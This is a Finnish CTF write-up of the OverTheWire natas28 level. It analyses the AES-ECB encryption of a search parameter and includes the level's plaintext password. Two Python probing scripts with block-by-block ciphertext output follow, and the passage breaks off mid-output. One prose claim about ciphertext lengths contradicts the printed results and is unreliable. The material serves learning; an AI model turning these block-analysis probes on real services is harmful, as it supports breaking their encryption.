

--- 
<hr>

# natas 28 - START HERE;

Welcome natas28 !
Here is your data:
Array ( [username] => natas28 [password] => 1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj )



kirjoitin haku kenttään jotaikn satunnaista tekstiä ja sitten "search" nappia - jonka antoi tällaisen url (`http://natas28.natas.labs.overthewire.org/search.php/?query=G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPJyuJN4JsfEV0tjnwsT7stHKSh%2FPMVHnhLmbzHIY7GAR1bVcy3Ix3D2Q5cVi8F6bmY%3D`) - mahtaako tämä merkitä jotakin ja samahan sivusto muuttui ja tuli tälleinen otsikko (Whack Computer Joke Database).




jos haku kenttään ei syötä mitään niin suora "search" nappia niin antaa vihjeitä ja tämän vitsi tietokannan mikälie

jos syötän kenttään "joke" ja klikkasin "search" napin niin tuli tällainen:

Whack Computer Joke Database
I've got a really good UDP joke to tell you, but I don't know if you'll get it






Tosiaan hakukenttään jos syöttää virallista sanaa tai pari-muutama välilyöntiä se kertoo jonkun lyhyen vitsi - ja voi olla vain tietty sanat 


Muutamissa pisti tämä osuus ainakin.. -->"The first string says, "I think I'll have a beer quag fulk boorg jdk`^Xbasdh dsa 23^@!8"


Samahan haettusta search kentän jälkeen se antoi erillaisen URL - mutta pikaisella silmällä jotakin näyttää samalla ja kokonaisen URL parametri eivät ole identtinen. Tarkistettuna "query"= jälkeen tämä osuus näyttää samalla, mutta muuten loppu osa ei ole.. **Eroava osa on keskellä**, mikä viittaa siihen, että kyseessä voi olla esimerkiksi salatun datan eri lohkot

`http://natas28.natas.labs.overthewire.org/search.php/?query=G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPLeIxYTeJ%2F0dro1G9VaeLyzKSh%2FPMVHnhLmbzHIY7GAR1bVcy3Ix3D2Q5cVi8F6bmY%3D`

`http://natas28.natas.labs.overthewire.org/search.php/?query=G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPIQgA1C82eT1228lUHOW3X2KSh%2FPMVHnhLmbzHIY7GAR1bVcy3Ix3D2Q5cVi8F6bmY%3D`

Tässä pari-muutamassa URL linkin kohdalla `search.php/` jälkeen jossa on kyselyä (query) jossa tulostaa jotakin tuntematonta tekstiä, ne on base64-enkoodattua stringiä


Tämä on vain esim. lohkojen vaikutusta eli ton URL parametrin osuudessaan. 

- Ensimmäisessä tapahtuu `search=` jotakin oletuksena
- Seuraavaksi, käyttäjän syötettän esim. lomakkeeseen tai tietty hakukenttä
- viimeisenä (suffix) - joka on selkeytä terminologiaa

```
[Prefix: "search="] + [Syöte: "AAAAAAAAAAAAAAAA"] + [Suffix: "&sort=asc"]

→ Lohkot:
[search=AAAAAAA...] → lohko 1
[AAAAAAAAAAAAAAAA] → lohko 2
[&sort=asc.......] → lohko 3
```


## Pieni teoria ja pohdinta

Tämä teoria ja ratkaisu osuus siis mitä tässä tapahtuu harjoituksen natas 28 levelissä on vähä muiden bloggien mukainen ohje, mutta kuulemma on yksi vaikeimmista tasoista.


Sivuston mukaan tekee kikkailun tekemän haun, se rakentaa siitä palvelimen puolella merkkijonon (jossa on vakio-alkuprefixi + käyttäjän syöte + mahdollinen suffiksi (muokkaa sanan merkitystä)), salaa sen **AES:llä ECB-tilassa**, **base64-koodaa** ja laittaa tuloksen **URL-parametriin**. Siksi alku pysyy samana (vakio‑prefixi → samat ensimmäiset lohkot), mutta keskiosa ja loppu muuttuvat, kun oma syötteesi ja pehmusteet vaihtuvat. ECB:ssä identtinen selkotekstilohko tuottaa aina identtisen salat ekstilohkon, ja se paljastaa rakennetta sekä mahdollistaa “cut‑and‑paste”‑kikkailun.


Sis mitä **ECB (Electronic Codebook) tarkoittaa**, miksi se on turvaton ja miten se liittyy Natas28-tasoon.

**🔐 Mikä on ECB-salaus?**
ECB (Electronic Codebook) on yksinkertaisin tapa käyttää lohkosalausta kuten AES:ää. Se toimii näin:

- Teksti jaetaan lohkoihin (yleensä 16 tavua = 128 bittiä).
- Jokainen lohko salataan erikseen samalla salausavaimella.
- Jos kaksi lohkoa ovat identtisiä, niiden salattu muoto on myös identtinen.

Lyhyesti: **ECB** on tapa käyttää **lohkosalausta** (esim. AES) niin, että viesti jaetaan 16 tavun lohkoihin ja jokainen lohko salataan erikseen samalla avaimella. Se on tavallaan “muunnin”, mutta huono sellainen, koska identtiset lohkot tuottavat identtisen salatun lohkon. Siksi datan kuviot ja toistot paljastuvat, mikä heikentää turvallisuutta. Turvallisemmat tilat (kuten CBC tai GCM) sekoittavat lohkot ja piilottavat kuviot. Tämän takia ECB:tä ei suositella muuhun kuin hyvin rajattuihin, ei-rakenteisiin käyttötapauksiin.

)

Just aikiasempi kappaleen mukaann 3 tai jopa muutamia testauksissa ja tarkistuksena, se antoi näitä arvoja, ja query (kyselystä) eteenpäin.

Tässä (alhaalla) muutama esim. jossa vakio-alku osa, keskellä on lomakekenttä syötteeni mitä syötetty käyttöliittymäsä ja perässä mahdollinen vakiosuffiksi tai pehmuste (padding). Tuosta "`%2BJ2TdR0Qp8dcjP`" suurinpirtein tässä alkaa leikkaa se keski-osa, joka muuttuu vähittelen.

- `/search.php/?query=G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPJyuJN4JsfEV0tjnwsT7stHKSh%2FPMVHnhLmbzHIY7GAR1bVcy3Ix3D2Q5cVi8F6bmY%3D`
- `/search.php/?query=G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPLeIxYTeJ%2F0dro1G9VaeLyzKSh%2FPMVHnhLmbzHIY7GAR1bVcy3Ix3D2Q5cVi8F6bmY%3D`

- `/search.php/?query=G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPIQgA1C82eT1228lUHOW3X2KSh%2FPMVHnhLmbzHIY7GAR1bVcy3Ix3D2Q5cVi8F6bmY%3D`

- `search.php/?query=G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPK%2FZEJpSw8lYr3%2BNDY3VpFZKSh%2FPMVHnhLmbzHIY7GAR1bVcy3Ix3D2Q5cVi8F6bmY%3D`


**🔍 Mitä tapahtuu, kun URL muuttuu “hieman”?**
Kyseessä on AES-ECB-salauksella koodattu kyselymerkkijono, joka voi sisältää:

- Vakio-alkuosan (esim. "query:" tai jotain backend-määrityksiä)
- Oma syötteesi (lomakekenttä)
- Mahdollinen vakiosuffiksi tai pehmuste (padding)

ECB-salaus ei sekoita lohkoja keskenään, vaan jokainen 16 tavun lohko salataan erikseen. Kun syötteesi menee keskelle lohkosarjaa, muuttuvat vain ne lohkot, jotka sisältävät syötteen, ei alku.


**Miksi URL-parametrin alku pysyy samana, mutta keskiosa ja loppu muuttuvat?**

- Vakio‑prefixi: Sovellus liittää syötteesi eteen kiinteän tekstin (esim. kyselypohjan). Tämä muodostaa ensimmäiset lohkot, jotka pysyvät samana → sama alku base64‑merkkijonossa.

- Syöte muuttaa seuraavia lohkoja: Kun muutat omaa tekstiäsi, nimenomaan ne lohkot, joissa syöte sijaitsee, vaihtuvat → keskiosa muuttuu.

- Pehmuste (PKCS#7) vaikuttaa loppuun: Pituuden muutos vaikuttaa viimeiseen lohkoon ja pehmusteeseen → loppu näyttää “täysin eri” jokaisella pituudella. Jos sotket tavumääriä, näet joskus “padding error” ‑tyyppisiä virheitä.


### vihjeenä ratkaisuun

**🧪 Miten testaus toimii CTF-logiikassa?**
Tee syötteitä, joissa on toistuvaa merkkijonoa (esim. AAAAAAAAAAAAAAAA x2). Jos näet URL:ssa toistuvan 24-merkkisen base64-pätkän → varmistus ECB:stä.

Lisää yksi merkki kerrallaan syötteeseen ja tarkkaile, milloin base64-pituus hyppää 24 merkkiä → se paljastaa uuden lohkon alun.

Kun saat “syötteen lohkon” kohdalle, voit kopioida sen base64:stä ja liittää toiseen kohtaan — testaa, mitä palvelin vastaa.


**💡 Lomakekenttä uudelleenkäyttö: mitä palvelin tekee?**
Vaikka URL-parametri muuttuu, palvelin todennäköisesti purkaa sen salatuksi kyselyksi ja käyttää sitä SQL- tai hakuoperaation syötteenä. Jos salattu syöte menee oikein lohkorajalle → koko "search string" saattaa sisältää esim. admin tai vastaavaa.


## testausta ja oma versio

natas28 [password] => 1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj )

Eli tosiaan pitäisi saada joku toisto tai tiety merkintä esim. "AAAAAAAAAAAAAAAAA" tai jotakin - lohkoa tunnistamiseen ja kopioida sen, muuttaa ja kääntää sen salaiseksi muotoiseksi, jotta saadaan se **natas29** vastaus.

Tässä tehtävässä tapahtuu siis CTF-tehtävissä käyttäen "AAAAAAAAAAAAAAAA" eli juuri 16 A:ta (ei 15, ei 17) on täsmälleen yksi AES-lohko. Tämä ei ole sattumaa — se on strateginen tapa testata ja paljastaa salauksen toimintaa, erityisesti kun kyseessä on ECB-tila, joka on tunnettu siitä, että:

Identtinen selkotekstilohko → identtinen salattu lohko. Tämä on parempi malli: 
- `Default Prepended Text` + `Input text` + `Padding to match the predefined block size`

**🧪 Miksi ei riitä vain pari A:ta?**

- Jos käytät vain esim. "AAA" tai "AAAAAA", et täytä kokonaista lohkoa → lohko sisältää myös muuta dataa (prefixiä tai paddingia).

- Vasta kun täytät koko lohkon (16 merkkiä), saat puhtaan lohkon, jonka salattu muoto on toistettavissa ja tunnistettavissa.


Satunnaista testausta ainakin niin testattua - esim. etusivustolla syöttää jotakin niin joko antaa jonkun vitsin tai ei, niin kummosin perässä olevan parametri osuuden ja lisäsin `query=hello` eli hello - sanan niin tuli näin ja ainakin toimi: 

```
Notice: Trying to access array offset on value of type bool in /var/www/natas/natas28/search.php on line 59
Zero padding found instead of PKCS#7 padding
```
- Natas28 käyttää AES-ECB-salausta ja PKCS#7-paddingia. Kun syötät query=hello, se salataan, mutta jos yrität manipuloida base64-parametria ilman oikeaa paddingia, purku epäonnistuu.
- Tämä on todella tärkeä vihje: purku odotti PKCS#7-paddingia, mutta sai nollapaddingia.






## Python skripti - START HERE;

Kokeillaan joku python skripti - apua toisesta sivustolta. Python-skriptin, joka mittaa salatun datan pituuden kun syötteen pituus kasvaa. Tämä on juuri se, mitä tarvitaan ECB-salauksen lohkoanalyysiin. 1-32 merkkiä (syötteenpituus) tarkoittaa 160 tavua (salatun datan pituutta) ja 33-48 merkkiä (syötteenpituus) tarkoittaa 256 tavua (salatun datan pituus). Tässä nähdään milloin **uusi AES-lohko syntyy** ja näkee **PKCS#7 padding** vaikuttaa salauksen pituuteen. Tämä onkin testauksen automatisointi, että miten se palvelin reagoi ja nopeampaa kuin manuaalisen testausta selaimessa, ja vaikka ei anna ratkaisua silti pientä hyötyä on.

Tämä on eka steppi mitä tehtiin:

```
import requests
from urllib.parse import unquote
import binascii
import base64

url = "http://natas28.natas.labs.overthewire.org/index.php"
username = "natas28"
password = "1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj"

for i in range(1, 50):
    data = {"query": "a" * i}
    data_length = len(data['query'])
    res = requests.post(url=url, data=data, auth=(username, password))
    encrypted_raw = binascii.hexlify(base64.b64decode(unquote(res.url[60:]))).decode()
    encrypted_raw_length = len(encrypted_raw)
    print("input Length: " + str(data_length) + " Encrypted query Length: " + str(encrypted_raw_length))


┌──(kali㉿kali)-[~/Desktop/Python koodit]
└─$ python pythonkoodi28.py
input Length: 1 Encrypted query Length: 160
input Length: 2 Encrypted query Length: 160
input Length: 3 Encrypted query Length: 160
input Length: 4 Encrypted query Length: 160
input Length: 5 Encrypted query Length: 160
input Length: 6 Encrypted query Length: 160
input Length: 7 Encrypted query Length: 160
input Length: 8 Encrypted query Length: 160
input Length: 9 Encrypted query Length: 160
input Length: 10 Encrypted query Length: 160
input Length: 11 Encrypted query Length: 160
input Length: 12 Encrypted query Length: 160
input Length: 13 Encrypted query Length: 192
input Length: 14 Encrypted query Length: 192
input Length: 15 Encrypted query Length: 192
input Length: 16 Encrypted query Length: 192
input Length: 17 Encrypted query Length: 192
input Length: 18 Encrypted query Length: 192
input Length: 19 Encrypted query Length: 192
input Length: 20 Encrypted query Length: 192
input Length: 21 Encrypted query Length: 192
input Length: 22 Encrypted query Length: 192
input Length: 23 Encrypted query Length: 192
input Length: 24 Encrypted query Length: 192
input Length: 25 Encrypted query Length: 192
input Length: 26 Encrypted query Length: 192
input Length: 27 Encrypted query Length: 192
input Length: 28 Encrypted query Length: 192
input Length: 29 Encrypted query Length: 224
input Length: 30 Encrypted query Length: 224
input Length: 31 Encrypted query Length: 224
input Length: 32 Encrypted query Length: 224
input Length: 33 Encrypted query Length: 224
input Length: 34 Encrypted query Length: 224
input Length: 35 Encrypted query Length: 224
input Length: 36 Encrypted query Length: 224
input Length: 37 Encrypted query Length: 224
input Length: 38 Encrypted query Length: 224
input Length: 39 Encrypted query Length: 224
input Length: 40 Encrypted query Length: 224
input Length: 41 Encrypted query Length: 224
input Length: 42 Encrypted query Length: 224
input Length: 43 Encrypted query Length: 224
input Length: 44 Encrypted query Length: 224
input Length: 45 Encrypted query Length: 256
input Length: 46 Encrypted query Length: 256
input Length: 47 Encrypted query Length: 256
input Length: 48 Encrypted query Length: 256
input Length: 49 Encrypted query Length: 256
```

**Seuraavaksi:** , Tässä on skripti, jossa tapahtuu AES-ECB-lohkojen analysointi

```
import requests
from urllib.parse import unquote
import binascii
import base64

url = "http://natas28.natas.labs.overthewire.org/index.php"
username = "natas28"
password = "1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj"

for i in range(1, 50):
    data = {"query": "a" * i}
    data_length = len(data['query'])
    res = requests.post(url=url, data=data, auth=(username, password))

    # Purkaa URL-parametrin base64-salauksen
    encrypted_raw = binascii.hexlify(base64.b64decode(unquote(res.url[60:]))).decode()
    encrypted_raw_length = len(encrypted_raw)

    print("input Length: " + str(data_length) + " Encrypted query Length: " + str(encrypted_raw_length) + "\n")

    # Tulostaa lohkot (32 heksamerkkiä = 16 tavua)
    block_size = 32
    for i in range(encrypted_raw_length // block_size):
        print(encrypted_raw[block_size * i : block_size * (i + 1)])

    print("=" * 40)
```


Aika pitkä tulostus ja täsä onmkin AES-ECB lohkoanalyysi dataa. Palvelin salaa syötteen AES-ECB:llä ja palauttaa sen base64-koodattuna URL-parametrina.
- Skripti purkaa base64:n ja näyttää salatun datan pituuden.
- Tulostaa salauksen lohkoittain (32 heksamerkkiä = 16 tavua).
- Näin voit tunnistaa toistuvat lohkot, rakentaa hyökkäyksen, ja murtaa salauksen rakenteen.


Nyt tässä , skripti purkaa base64:n ja näyttää salatun datan pituuden. ulostaa salauksen lohkoittain (32 heksamerkkiä = 16 tavua). Näin voidaan tunnistaa toistuvat lohkot, rakentaa hyökkäyksen, ja murtaa salauksen rakenteen.


Skriptin avulla havaitsin, että kohdasta **input Length: 10** alkaen **kolmas lohko alkaa toistua identtisesti**, kun syötteenä on toistuva merkkijono kuten "AAAAAAAAAA...". Tämä paljastaa ECB-salauksen rakenteen: identtinen syöte tuottaa identtisen salatun lohkon. Tästä eteenpäin voidaan rakentaa hyökkäys, jossa haluttu lohko (esim. "admin") liitetään toiseen salattuun syötteeseen. 

Sama pätee **input length 26** alkaen toistua sama osuus ja **neljäs lohko toistua identtisiä dataa** ja sama idea kohdalla **input length 41 ja 42** kohasta loppuun asti toistuu sama lohdo id.

```
┌──(kali㉿kali)-[~/Desktop/Python koodit]
└─$ python pythonkoodi28-2.py   
input Length: 1 Encrypted query Length: 160

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
ab880a8f136fbeb98967891324a1b075
bdfa1054ec68515cf96f2a5544591947
904f4b2abf2c2d7686aa72a53151c970
========================================
input Length: 2 Encrypted query Length: 160

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
b130a531bec89c705213bfa5c9667ac7
48799a07b1d29b5982015c9355c2e00e
aded9bdbaca6a73b71b35a010d2c4c57
========================================
input Length: 3 Encrypted query Length: 160

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
2f5293a63acb9fe8c7b4e824b76d6a1d
9a2e2b5db6f31f19a14f75678eadaa90
4249b93e4dea0909479995b9c44b351a
========================================
input Length: 4 Encrypted query Length: 160

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
3504a9a9675ffd614b4f1f90d284fcaa
29287f3cc5479e12e66f31c863b18047
56d5732dc8c770f64397158bc17a6e66
========================================
input Length: 5 Encrypted query Length: 160

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c36a1f0469158a3052166146a5e3f2ec
ac3b871c1c448386b45cd36d9e8f72f4
655149bbba2123d89d95417ea27f3a7b
========================================
input Length: 6 Encrypted query Length: 160

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
4a11ffe73afd15daa05eb3c3486dcde1
41c098c4bacdc5ed9357564e5105dd7e
64d0dcc868253692adfcbd3796d1bf8a
========================================
input Length: 7 Encrypted query Length: 160

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
9fde1cef6e3f84a172633f3074fc8e18
6486954aea46fb93e9ab85845b4f4bd0
d7ff2b725453fc294701e51f5d7c0f8e
========================================
input Length: 8 Encrypted query Length: 160

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
453e0020602f4dccd50f0eb7709477c2 <<<<<<<<
896de90884f86108b167f8b4aea5d763
917232051483e68e458fd066167b30a3
========================================
input Length: 9 Encrypted query Length: 160

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
9e622686a52640595706099abcb052bb <<<
a09522f301cf9d36ac7023f165948c5a
9739cd90522fa7a86f95773b56f9f8c0
========================================
input Length: 10 Encrypted query Length: 160

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e <<<<<<<<<<<<<<<<
738a5ffb4a4500246775175ae596bbd6
f34df339c69edce11f6650bbced62702
========================================
input Length: 11 Encrypted query Length: 160

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e <<<<<<<<<<<<<<<<
b4eda087d3c0bea2bedc1b6140b9e2eb
ca8cf4e610913abae39a067619204a5a
========================================
input Length: 12 Encrypted query Length: 160

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e <<<<<<<<<<<<<<<<
ce82a9553b65b81280fb6d3bf2900f47
75fd5044fd063d26f6bb7f734b41c899
========================================
input Length: 13 Encrypted query Length: 192

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
1f74714d76fcc5d464c6a221e6ed98e4
6223a14d9c4291b98775b03fbc73d4ed
d8ae51d7da71b2b083d919a0d7b88b98
========================================
input Length: 14 Encrypted query Length: 192

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
ecd36f8fd9164d403540e449707d27e5
4257a343daadaaf2c0e3a1d71ce03dd1
7b7baca655f298a321e90e3f7a60d4d8
========================================
input Length: 15 Encrypted query Length: 192

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
5aef2a997da2363f72a3fad332d1736f
a773f3185094aa01408f1f97d037d385
678c5773ecc28f870e4f4ebc6c8070a4
========================================
input Length: 16 Encrypted query Length: 192

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
8925158cfc5ac06d22bfda0b72c8f151
a77e8ed1aabe0b5d05c4ffe6ac1423ab
478eb1a1fe261a2c6c15061109b3feda
========================================
input Length: 17 Encrypted query Length: 192

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
adf8a1ad0177ed1ecad3ac7c1082aa9e
bdfa1054ec68515cf96f2a5544591947
904f4b2abf2c2d7686aa72a53151c970
========================================
input Length: 18 Encrypted query Length: 192

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
53d9499ebcad6861f04b7cdc24f30462
48799a07b1d29b5982015c9355c2e00e
aded9bdbaca6a73b71b35a010d2c4c57
========================================
input Length: 19 Encrypted query Length: 192

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
a549fda52b6d9b4e2632db31838856d5
9a2e2b5db6f31f19a14f75678eadaa90
4249b93e4dea0909479995b9c44b351a
========================================
input Length: 20 Encrypted query Length: 192

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
2011bbe488dde1bbec961b6170b30e12
29287f3cc5479e12e66f31c863b18047
56d5732dc8c770f64397158bc17a6e66
========================================
input Length: 21 Encrypted query Length: 192

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
8829a1f930ceb566b834441c0577402c
ac3b871c1c448386b45cd36d9e8f72f4
655149bbba2123d89d95417ea27f3a7b
========================================
input Length: 22 Encrypted query Length: 192

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
547602b52fae1566ac8e971f91f6d605
41c098c4bacdc5ed9357564e5105dd7e
64d0dcc868253692adfcbd3796d1bf8a
========================================
input Length: 23 Encrypted query Length: 192

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
a45a93ee4794d1b6204fb0920b68f27d
6486954aea46fb93e9ab85845b4f4bd0
d7ff2b725453fc294701e51f5d7c0f8e
========================================
input Length: 24 Encrypted query Length: 192

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
eda118f999f9495e8f3d973fba6528a3
896de90884f86108b167f8b4aea5d763
917232051483e68e458fd066167b30a3
========================================
input Length: 25 Encrypted query Length: 192

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
